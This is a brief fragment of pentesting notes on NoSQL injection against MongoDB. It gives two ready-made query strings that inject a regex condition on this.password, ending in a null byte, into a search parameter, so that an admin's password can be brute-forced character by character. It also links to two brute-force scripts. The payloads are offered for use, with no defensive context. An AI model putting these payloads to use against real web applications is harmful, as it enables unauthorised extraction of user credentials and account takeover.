 #### Use regex to bruteforce
`?search=admin' %26%26 this.password.match(/d/)%00`

`?search=admin' %26%26 this.password.match(/^dc.$/)%00`

examples:  
[mongodb_url_brutforce.py](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/mongodb_url_brutforce.py)  
[brute_mongoDB_nosqli](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)
